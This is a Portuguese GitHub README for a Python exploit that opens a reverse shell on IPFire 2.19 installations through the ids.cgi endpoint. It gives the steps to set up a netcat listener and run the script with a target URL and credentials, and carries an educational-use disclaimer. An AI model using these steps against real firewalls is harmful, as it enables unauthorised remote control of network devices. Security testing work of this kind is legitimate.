


# IPFire Reverse Shell Exploit




Este é um script em Python para explorar uma vulnerabilidade em instalações do IPFire que permite a execução de um shell reverso. Ele é destinado apenas para fins educacionais e de teste. Use com responsabilidade e apenas em ambientes onde você tem permissão.
Este Script foi criado com auxilio do chatgpt e baseado no payload disponivel em:
https://www.exploit-db.com/exploits/42149


Obrigado Kryoonzz, pelas dicas! 

## Requisitos

- Python 3.x
- Bibliotecas Python: `requests`

## Uso

Para usar o script, siga as instruções abaixo:

1. Clone o repositório:

   ```bash
   git clone https://github.com/BrotherOfJhonny/IPFire_2.19.git

2. Acesse a pasta:
 ``
cd IPFire_2.19
 ``

4. Em outro terminal execute o netcat com os dados da porta que irá receber a conexão reversa.

 ```bash
nc -lvnp 4114
 ```

5. Execute seguindo as intruções:

  ```bash
python ipfireExpl3.py --revhost SEU_HOST --revport SUA_PORTA --url URL_VULNERAVEL --u SEU_USUARIO --p SUA_SENHA
 ```

Substitua SEU_HOST, SUA_PORTA, URL_VULNERAVEL,  ```exemplo: https://10.2.2.1:444/cgi-bin/ids.cgi ```, SEU_USUARIO e SUA_SENHA pelos valores apropriados.

6. Observação

```Observação
Após executar o script pode demorar até um minuto para obtenção do shell reverso
```




## Aviso Legal
Este script é fornecido apenas para fins educacionais e de teste. Não é destinado a uso malicioso. Use-o apenas em sistemas onde você tem permissão para testar a vulnerabilidade. O autor não é responsável por qualquer uso indevido deste script.

## Contribuições
Contribuições são bem-vindas! Se você deseja melhorar ou estender este projeto, sinta-se à vontade para enviar um pull request.
